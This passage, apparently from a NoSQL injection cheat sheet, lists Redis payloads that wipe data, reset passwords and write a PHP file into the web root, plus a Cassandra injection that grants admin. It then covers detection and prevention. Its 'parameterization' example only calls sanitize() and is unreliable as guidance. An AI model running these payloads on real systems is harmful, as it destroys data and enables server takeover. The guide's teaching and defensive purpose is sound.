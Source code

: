 ### Redis Injection Payloads

```
# Command injection in Redis-backed apps
FLUSHALL
SET password "newpass"
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename shell.php
SET payload "<?php phpinfo(); ?>"
SAVE
```

### Cassandra CQL Injection

```
# Manipulating filter conditions
username='; UPDATE users SET admin=true WHERE username='admin
```

## Detection Techniques

### Manual Detection Signs

1. Error messages containing database information
2. Unexpected behavior when submitting special characters
3. Different responses when submitting Boolean conditions
4. Time delays when submitting sleep/delay functions

### Automated Testing Methods

1. Parameter fuzzing with NoSQL operators
2. Boolean-based blind testing
3. Time-based blind testing
4. Regular expression extraction methods

## Prevention & Mitigation

### General Prevention Methods

1. **Input Validation**
   - Validate data types, formats, and ranges
   - Reject inputs containing NoSQL special characters and operators

2. **Query Parameterization**
   ```javascript
   // BAD (direct insertion):
   db.users.find({username: username, password: password});
   
   // GOOD (using parameters):
   db.users.find({username: sanitize(username), password: sanitize(password)});
   ```
